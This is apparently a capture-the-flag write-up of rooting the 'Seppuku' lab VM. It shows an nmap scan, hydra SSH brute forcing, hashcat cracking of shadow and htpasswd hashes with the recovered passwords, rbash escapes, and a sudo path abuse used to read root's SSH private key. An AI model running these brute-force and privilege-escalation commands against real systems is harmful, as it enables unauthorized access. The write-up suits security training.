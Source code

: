 # Seppuku

`netdiscover` found the box running on this IP

```
192.168.1.181
```

## Port scan
```
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 64 vsftpd 3.0.3
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:55:a8:e4:0f:28:bc:b2:a6:7d:41:76:bb:9f:71:f4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhKnaNVJ/YnScPD1GDZSIfyC/a4jjHhSnoEgi2c/c03kE4JVZbA4cTFeEHGq4PFTyiuchv9w9zNu8XtVIDhILb9K4D38EssujmpekrrAnYkS0yU8Kqas1+3FCY8xjz6a5yVdMk/aQVa4BfFXWnv+rdlio0ZFVdLDaRaG90KMUEVw18Ogzt9lBbnbf7gOR0EGPKW0xzyDyI70u5FJnarDFV9jCZL/flcCL0m+MAycgdFyFqCOTjNxd8Qn2R3rnhgjSER5C9c+qEI/htLmtnXTC0p6AMeTDjO3J57LEB1WFYJ4wkeuEUtPadfhwgDR16XqWmqw2HcBIj1W9H9V47KFfR
|   256 16:fa:29:e4:e0:8a:2e:7d:37:d2:6f:42:b2:dc:e9:22 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC+yj9GRgyn2boC7Dw9un6PEwviM8NZ1CRTjmrHRFiOT+0co+OOwxD5RRQCxuS22zJgsiDIEka8ypTjYWlnJ9T8=
|   256 bb:74:e8:97:fa:30:8d:da:f9:5c:99:f0:d9:24:8a:d5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIESejQ038eElmlRfbqAgaRSK120jvrz9WQ5UcjxJdJ71
80/tcp   open  http        syn-ack ttl 64 nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
8088/tcp open  http        syn-ack ttl 64 LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Seppuku
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 00:0C:29:B1:65:81 (VMware)

```

## Enumeration
We weren't able to anonymous login with ftp

Port 80 requires authentication, we tried a few basic combinations such as
	- admin:admin
	- admin:password
	- root:root
	- root:password

![[Pasted image 20220708141325.png]]

Anonymous login wasn't allowed on the Samba Share

Port 8088 didn't have anything interesting



we found some interesting files

![[Pasted image 20220708140408.png]]

We were able to crack the `shadow.bak` file pretty quickly with hashcat and the supplied wordlist. However, the username is `rabbit-hole` and these credentials don't appear to work anywhere.

![[Pasted image 20220708140704.png]]

We also tried using some RSA tokens that we found in `/keys/`

![[Pasted image 20220708140815.png]]

This also led nowhere.

Next I threw the password list at ssh using the hostname of the box as the user (this has been a common pattern in the past).
```
hydra -l 'seppuku' -P ../loot/password.lst 192.168.1.181 ssh
```

This gives us a way in

![[Pasted image 20220708140232.png]]

```
seppuku
```

```
eeyoree
```

## Privesc

We start with some manual enumeration, and notice the user is able to run `/usr/bin/ln -sf /root/ /tmp/` as root with no password.

![[Pasted image 20220708144040.png]]

Running the command copies the whole /root/ directory into /tmp so we can view the files.

```
sudo /usr/bin/ln -sf /root/ /tmp/
```

we then try to move to the folder to see the files

```
cd /tmp
```

we see we're in a restricted rbash session

![[Pasted image 20220708144617.png]]

we can easily escape this with

```
bash -i
```

but we don't have permissions to view the /tmp/root directory

### Linpeas
at this point we decided to turn to linpeas, here are some of the findings

#### sudo version 1.8.27

![[Pasted image 20220708150043.png]]

#### nginx htpasswd
![[Pasted image 20220708145743.png]]

```
admin:$apr1$sHVvV4Vi$FFQ2lYSWSsNM/gDRPXPgr1
```

Hashcat and crackstation didn't automatically recognize this hash type, though we were able to see it's similar to `Apache` which is **mode 1600** on the [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes)

we also needed to modify the hash file so it only contained the hash and NOT the username:

```
$apr1$sHVvV4Vi$FFQ2lYSWSsNM/gDRPXPgr1
```

```
hashcat -m 1600 hash password.lst
```

![[Pasted image 20220708151750.png]]

**credentials**

```
admin
```

```
Football
```

#### id_rsa.pub
![[Pasted image 20220708145809.png]]

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKkmXCMpd/QXhi8vaB/C+hS68Ht+4Ywx8J7jWAsKxOyV45TLYIlf6g3BVUo+mXpNgjidc8ZuLB8bOjGbQVlrsP3K
vzc6DC68wynzc6RVzAv2/7Htq0rwABVnQ2O848aS8SEHas9LaYqDXFEpcIzukDQpI6gNuT1yg6lp2ODgbR/Vg9avCnqIt8gSt9jb7mFLtDJNCm5GYe5Hh4osXU0VGn
yBi40JW2vSfZS7qFa4jtFYEZBkkmiPwsqN9FFiYoanKqIZN1HL7zILIC5PnmyG4LNe5z7/ccTaMAI4Pz6lI8qPDHObh+5pJ8FNSQd/KGJIoiSinZh8gMspE8zx0afn
O5
```

This gives an idea to try to `private` key we found earlier for this user. It works!

#### lateral movement to user: tanto

```bash
ssh -i private tanto@192.168.1.181
```

This user was also in a restricted shell, we need to escape with

```
bash -i
```

after some manual enumeration and running linpeas, it doesn't appear that we have any new permissions as this user

#### users with console

![[Pasted image 20220708145828.png]]

#### interesting files in home directory

![[Pasted image 20220708145845.png]]

![[Pasted image 20220708150305.png]]

```
12345685213456!@!@A
```

Turns out, this is a clear-text backup of a password for the user `samurai`

```
su samurai
```

paste the password

samurai is allowed to run the following with elevated privileges

```
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

![[Pasted image 20220708154846.png]]

after reviewing linpeas results, it appears the only access gained was the above sudo command.

I tried running the command, but the path `/home/tanto/.gci_bin/bin` does not exist. Since we have access as tanto through an ssh-key, we log in and create a copy of `ls` at that path

```
ssh -i private tanto@192.168.1.181
```

break out of rbash

```
bash -i
```

copy the `ls` binary

```
mkdir /home/tanto/.cgi_bin/ && cp /usr/bin/ls $HOME/.cgi_bin/bin
```

then, in a different shell running as `samurai`, run the binary with sudo and `ls` the `/tmp/root` directory

```
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/root
```

we see `root.txt`, but lets try to get a session as root. I wonder if there are any ssh keys.

```
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/root/.ssh
```

![[Pasted image 20220708160529.png]]

now, we can view the key by replacing our sudo binary with the `cat` command, again running in a session as the `tanto` user

```
mkdir /home/tanto/.cgi_bin/ && cp /usr/bin/cat $HOME/.cgi_bin/bin
```

```
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/root/.ssh/id_rsa > root_rsa
```

we then copy the file over to our kali box.

the rsa key worked! We're able to log in as root now using ssh.

```
ssh -i root_rsa root@192.168.1.181
```

![[Pasted image 20220708161418.png]]

# Root flag
```
{SunCSR_Seppuku_2020_X}
```